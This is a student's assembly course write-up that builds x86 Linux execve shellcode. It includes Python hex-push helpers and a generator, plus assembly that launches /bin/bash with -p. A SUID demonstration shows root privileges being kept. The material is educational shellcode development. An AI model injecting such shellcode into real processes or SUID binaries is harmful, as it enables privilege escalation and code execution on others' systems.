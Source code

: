 # Note

This MD file has been created for the SecurityTube Linux Assembly Expert certification (https://www.pentesteracademy.com/course?id=3). Student ID: 1483.

# Exo 0 - Execve shellcode - Part 1 - Simple execve

Following the megaprimer, this is a very simple execve program calling */bin/bash*. This small Python 3 program is used in order to have a */bin/bash* string that can be easily pushed on the stack:

```Python
#!python3

import sys

if len(sys.argv) != 2:
   print("Usage: " + sys.argv[0] + " PATH")
   sys.exit(1)

path = sys.argv[1]
result = []


if (len(path) % 4) != 0:
   for i in range(0, 4 - len(path) % 4):
      path = "/" + path

for i in range(0, int(len(path) / 4)):
   tmp = ""
   for letter in path[i*4:(i+1)*4][4::-1]:
      tmp += str(hex(ord(letter))).replace('0x', '')
   result.append(tmp)

for doubleword in result[len(result)::-1]:
   print('0x' + doubleword)
```

```
$ python3 ../reverse-string-x32.py /bin/bash
0x68736162
0x2f6e6962
0x2f2f2f2f
```

The final shellcode is:

```ASM
global _start

section .text

_start:
    xor eax, eax
    
    push eax
    push 0x68736162 ; hsab
    push 0x2f6e6962 ; /nib
    push 0x2f2f2f2f ; ////
    mov ebx, esp

    mov edx, eax
    mov ecx, eax
    
    mov al, 0xb
    int 0x80
```

# Exo 0 - Execve shellcode - Part 1 - Execve generator

A very simple Python 3 program can be done for generating a execve shellcode with a specific program:

```Python
#!python3

import sys

if len(sys.argv) != 2:
   print("Usage: " + sys.argv[0] + " PATH")
   sys.exit(1)

path = sys.argv[1]

shellcode = "global _start \n \
\n \
section .text \n \
\n \
_start:  \n \
    xor eax, eax  \n \
\n \
    push eax  \n \
    *PATH*   \n \
    mov ebx, esp  \n \
\n \
    mov edx, eax  \n \
    mov ecx, eax  \n \
\n \
    mov al, 0xb  \n \
    int 0x80  \n \
"

pushed_value = ""
result = []
if (len(path) % 4) != 0:
   for i in range(0, 4 - len(path) % 4):
      path = "/" + path

for i in range(0, int(len(path) / 4)):
   tmp = ""
   for letter in path[i*4:(i+1)*4][4::-1]:
      tmp += str(hex(ord(letter))).replace('0x', '')
   result.append(tmp)

for doubleword in result[len(result)::-1]:
   pushed_value += ('	push 0x' + doubleword + "\n")

shellcode = shellcode.replace("*PATH*", pushed_value)

print(shellcode)
```

# Exo 0 - Execve shellcode - Part 1 - Execve with arguments

## C program

It may be useful to pass argument to a program. For example, /bin/bash, does not run as root if the program is SUID root. It is possible to run /bin/sh which is in most cases /bin/dash. But on some distribution /bin/sh is just a link to /bin/bash.

Let's check this with a very small C program:

```C
int main()
{
	execve("/bin/bash", 0, 0);
}
```

```
cervoise@slae:~/exam/exo0$ gcc execve-noarg.c -o execve-noarg
cervoise@slae:~/exam/exo0$ sudo chown root:root execve-noarg && sudo chmod u+s execve-noarg 
cervoise@slae:~/exam/exo0$ ls -l execve-noarg
-rwsrwxr-x 1 root root 7168 févr. 25 14:18 execve-noarg
cervoise@slae:~/exam/exo0$ ./execve-noarg 
bash-4.2$ whoami
cervoise
bash-4.2$ id  
uid=1000(cervoise) gid=1000(cervoise) groups=1000(cervoise),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
```
In order to get the root privilege, *bash -p* must be called. Let's check with another C program:


```C
main()
{
  char *foo[] = { "/bin/bash", "-p", 0 };
  execve("/bin/bash", foo, 0);
}
```

```
cervoise@slae:~/exam/exo0$ gcc execve-arg.c -o execve-arg
cervoise@slae:~/exam/exo0$ sudo chown root:root execve-arg && sudo chmod u+s execve-arg
cervoise@slae:~/exam/exo0$ ls -l execve-arg
-rwsrwxr-x 1 root root 7166 févr. 25 14:19 execve-arg
cervoise@slae:~/exam/exo0$ ./execve-arg 
bash-4.2# whoami
root
bash-4.2# id
uid=1000(cervoise) gid=1000(cervoise) euid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(cervoise)
```

## Assembly program

The only difference here is to create a structure that contains:
 * /bin/bash\0
 * -p\0
 * 0

The shellcode is:

```ASM
global _start

section .text

_start:
    
    ; Set EAX and EDX to 0
    xor eax, eax
    cdq 

    ; Push 0
    push eax

    ; Push "////bin/bash"
    push 0x68736162
    push 0x2f6e6962
    push 0x2f2f2f2f
    mov ebx, esp ; "////bin/bash\0" ->  EBX

    ; Push -p\0 and save it into edi
    push eax
    mov dx, 0x702d ;-p
    push dx
    cdq ; restore edx to 0       
    mov edi, esp ; "-p\0" -> EDI
 
    ;push 0, -p\0, ////bin/bash\0 and load it into ECX
    ;   char *foo[] = { "/bin/bash", "-p", 0 };
    ;   execve("/bin/bash", foo, 0);
    push eax
    push edi
    push ebx
    mov ecx, esp

    mov al, 0xb
    int 0x80
```
